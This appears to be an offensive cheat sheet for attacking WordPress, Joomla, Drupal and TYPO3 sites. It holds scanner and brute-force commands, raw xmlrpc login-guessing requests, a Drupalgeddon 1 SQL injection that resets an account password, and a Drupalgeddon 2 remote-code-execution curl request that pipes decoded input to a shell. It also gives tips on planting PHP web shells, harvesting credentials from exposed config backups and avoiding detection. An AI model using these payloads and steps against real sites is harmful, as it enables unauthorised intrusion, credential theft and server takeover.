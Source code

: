 # cms exploitation. leverage platform-specific weaknesses.

common attack vectors:
- outdated plugins/themes with known cves
- default/weak admin credentials  
- insecure file upload functionality
- sql injection in plugins
- privilege escalation via misconfiguration

## wordpress

### reconnaissance
```bash
# wordpress scanner
wpscan --url http://target.com --enumerate ap,at,cb,dbe
wpscan --url http://target.com --passwords passwords.txt --usernames admin

# manual checks
curl http://target.com/wp-admin/
curl http://target.com/wp-content/plugins/
curl http://target.com/xmlrpc.php
```

### xmlrpc.php exploitation

test if enabled:
```xml
POST /xmlrpc.php
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

brute force login:
```xml
POST /xmlrpc.php 
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>password123</value></param>
</params>
</methodCall>
```

### common vulnerabilities

**plugin upload bypass:**
- vulnerable upload plugins often allow php execution
- check `/wp-content/uploads/` for accessible shells

**theme editor access:**
- if admin access gained, edit theme files for php shells
- `/wp-admin/theme-editor.php`

**wp-config.php exposure:**
- backup files: `wp-config.php~`, `wp-config.php.bak`
- contains database credentials

## joomla

### reconnaissance 
```bash
# joomla scanner  
joomscan -u http://target.com
joomscan -u http://target.com --enumerate-components

# version detection
curl http://target.com/administrator/manifests/files/joomla.xml
```

### common attack points

**administrator panel:**
- default path: `/administrator/`
- weak credentials often used

**configuration.php exposure:**
- contains database and secret keys
- check for backup versions

## drupal

### reconnaissance
```bash
# droopescan
droopescan scan drupal -u http://target.com

# manual version check  
curl http://target.com/CHANGELOG.txt
curl http://target.com/INSTALL.txt
```

### drupalgeddon exploits

**drupalgeddon 1 (cve-2014-3704):**
```sql
# sql injection in form api
POST /drupal/?q=node&destination=node
name[0;UPDATE users SET pass = '$S$CTo9G7Lx28rzCfpn16WZ4y05G4LLgfkMlxDZhTgFZjdS.r59RVqOz2';]=test&form_id=user_login_block&op=Log+in
```

**drupalgeddon 2 (cve-2018-7600):**
```bash
# rce via form api
curl -d "form_id=user_login_block&_triggering_element_name=name" \
     -d "_triggering_element_value=&op=Log+in" \
     -d "name[#post_render][]=exec&name[#type]=markup&name[#markup]=echo YWxlcnQoJ1hTUycpOw==|base64 -d|sh" \
     http://target.com/?q=user/password
```

## typo3

### reconnaissance
```bash
# version check
curl http://target.com/typo3conf/ENABLE_INSTALL_TOOL
curl http://target.com/typo3/install.php

# admin interface
curl http://target.com/typo3/
```

### attack vectors

**install tool abuse:**
- if accessible, can lead to full compromise
- path: `/typo3/install.php`

**extension vulnerabilities:**
- similar to wordpress plugins
- check typo3 security bulletins

## operational notes

- [!] cms scanners generate significant log entries - use carefully
- default admin paths are heavily monitored - expect detection
- always check for version-specific cves after fingerprinting
- backup and temp files often contain sensitive configuration data

# TODO: add detection evasion techniques for cms scanners